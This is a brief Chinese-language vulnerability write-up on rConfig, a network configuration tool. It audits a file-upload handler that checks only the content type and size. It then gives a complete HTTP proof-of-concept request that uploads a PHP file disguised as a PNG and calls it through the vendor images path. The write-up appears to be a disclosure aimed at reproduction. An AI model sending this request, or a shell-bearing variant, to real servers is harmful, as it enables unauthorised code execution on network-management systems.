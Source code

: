 rConfig是一个开放源码的网络设备配置管理实用工具，用于网络工程师对网络设备的配置。

代码审计
----

/lib/crud/vendors.crud.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6c8dbdd6ac4a7c7f20f26d6742acf7da30571694.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-6c8dbdd6ac4a7c7f20f26d6742acf7da30571694.png)  
可以看到只白名单了`type`类型和大小限制

漏洞复现
----

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-550af9f2c833342b81605c68030a9968e54d56a7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-550af9f2c833342b81605c68030a9968e54d56a7.png)

POC:

```php
POST /lib/crud/vendors.crud.php HTTP/1.1
Host: xx.xx.xx.xx
Connection: close
Content-Length: 491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.131 Safari/537.36
Origin: https://xx.xx.xx.xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWpMXK6WIANv7xtCd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://xx.xx.xx.xx/vendors.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=27bdb13b82eac5dab1a420d9699474ca

------WebKitFormBoundaryWpMXK6WIANv7xtCd
Content-Disposition: form-data; name="vendorName"

111
------WebKitFormBoundaryWpMXK6WIANv7xtCd
Content-Disposition: form-data; name="vendorLogo"; filename="111.php"
Content-Type: image/png

<?php phpinfo(); ?>
------WebKitFormBoundaryWpMXK6WIANv7xtCd
Content-Disposition: form-data; name="add"

add
------WebKitFormBoundaryWpMXK6WIANv7xtCd
Content-Disposition: form-data; name="editid"

------WebKitFormBoundaryWpMXK6WIANv7xtCd--
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7bee249bb918eb8f7ec718b26acfb065dbbe7eeb.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7bee249bb918eb8f7ec718b26acfb065dbbe7eeb.png)

访问上传的文件/images/vendor/111.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aeb3615edb56411a327c0e7e80513a012530a867.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-aeb3615edb56411a327c0e7e80513a012530a867.png)
